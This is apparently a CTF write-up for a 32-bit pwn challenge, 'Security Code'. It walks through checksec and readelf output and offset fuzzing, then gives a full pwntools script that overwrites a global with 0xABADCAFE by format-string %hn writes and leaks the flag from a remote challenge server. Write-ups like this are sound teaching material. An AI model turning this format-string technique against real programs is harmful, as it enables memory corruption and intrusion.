

## Security Code [445 pts]

**Category:** Pwn
**Solves:** 36

### Description
>Can you print the flag?

## Solution

In this challenge we are provided an 32bit ELF binary which is vulnerable to format string.
First I checked `checksec` command on this file:

```bash
$ checksec --file=securitycode 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   83) Symbols	  No	0
```

As we can se PIE is not enabled and checking these details we can use typical format string techniques to exploit this bug.
Decompiling this binary with IDA results us with following images:





As we can see in the images we should change value in `security_code` using format strings to pass the condition,
And get to the `auth_admin` which will lead us to flag.

Our next step is to find reference location of `security_code`. using `readelf`:

```bash
$ readelf -a securitycode | grep security_code
    66: 0804c03c     4 OBJECT  GLOBAL DEFAULT   26 security_code
```

The procedure to exploit is as follow:

- First send A value to program, so it will redirect us into `hello_admin`

- Next We should write value in location of `security_code` to make condition pass. 
New value should be `0xABADCAFE`

- After that we will be leaded to `auth_admin`, But by default it will not show us flag.
Again we should do another `format string` exploit and try to read of memory value of flag.

- There is a limitation on reading value in this step, so we should read 6 string of flag at a time, 
and provide an offset on location we are reading in next hit.

To find offset of where is the `security_code` location from stack, I just fuzzed with giving below input format 
and findout that it is location at position 15. So we should point to location of it using format string
`%15$n`

```bash
AAAA%15$p
Hello our dear admin, AAAA0x41414141
```
As u can see the value `AAAA` that we provided, is overwriten in location offset `%15$n`.
This is our start point.

### I tried to put more comments on exploit code below, But will try to make this writeup with more details later.

The final exploit code to receive the flag:

```python
from pwn import *

flag = ''

# We will hit program for 30 iterations (just a number to get all available characters in flag)
# And in each try will change offset of getting flag value.
for i in range(30):

	# First we will connect to program using pwntools methods.
    # r = process("./securitycode")
    r = remote('185.97.118.167', 7040)

    # First Send A to be forwarded to hello_admin
    r.recvuntil("Enter 'A' for admin and 'U' for user.")
    r.sendline('A')

    # Value to overwrite is: xABADCAFE
    # ABAD: 43949
    # CAFE: 51966
    # So we need to first write this value in location of security_code address,
    # But cause it's more than two bytes, we will try to write two times in our format string payload.
    # cause CAFE is of a higher value we should first write it in location 15 from stack
    r.recvuntil('Enter you name:')
    payload = '\x3e\xc0\x04\x08\x3c\xc0\x04\x08%43941x%15$hn%8017x%16$hn'
    r.sendline(payload)

    # Now try to read of the flag step by step
    r.recvuntil('Enter your password:')
    payload = '%{}$x'.format(i)
    r.sendline(payload)

    x = r.recvline()
    x += r.recvline()
    x += r.recvline()
    x = x.replace('The password is ', '').strip()
    # it's just a method i used, it's not very clean, but got me the flag :)!
    try:
        flag += bytearray.fromhex(x).decode()[::-1]
    except:
        pass

print(flag)
```
